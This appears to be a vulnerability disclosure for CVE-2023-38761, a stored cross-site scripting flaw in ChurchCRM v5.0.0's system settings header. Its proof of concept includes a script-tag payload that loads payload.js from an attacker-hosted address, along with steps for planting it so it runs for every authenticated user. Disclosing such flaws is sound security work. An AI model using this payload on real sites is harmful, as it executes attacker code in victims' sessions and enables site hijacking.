

# CVE-2023-38761 - Stored Cross-Site Scripting (XSS) via Site Header

|                 |                                                                                      |
| --------------- | --------------- |
| Researchers     | Rowan Crowley                                                               |
| Severity        | 6.1 (CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N)                                   |
| Published       | https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-38761         |
| Software Link   | https://github.com/ChurchCRM/CRM             |

## Description
A cross site scripting (XSS) vulnerability in ChurchCRM v5.0.0 allows remote attackers to inject arbitrary web script or HTML via a crafted payload to the `systemSettings.php` endpoint. An authenticated attacker with administrator privileges can perform stored XSS by editing the site's header within the system settings. This payload is triggered whenever anyone authenticated attempts to view any page of the website. This vulnerability can be used to execute arbitrary JavaScript code within the victim's session, perform information disclosure, or perform other CSRF attacks to potentially hijack the website.

## Proof of Concept
The following XSS payload downloads and executes the payload.js file that the attacker is hosting: `&lt;SCRIPT SRC=http://127.0.0.1:4444/payload.js&gt;&lt;/SCRIPT&gt;`

1. As an administrator, navigate to Admin > Edit General Settings > System Settings, and place the XSS payload in the sHeader box.

2. Ensure you have your payload.js file hosted locally. As a POC, that file can simply contain `alert(123)`.

3. Click Save Settings. The payload will be executed immediately as the page reloads. Because it is embedded in the site header, it is executed on any page that is viewed and affects every authenticated user.

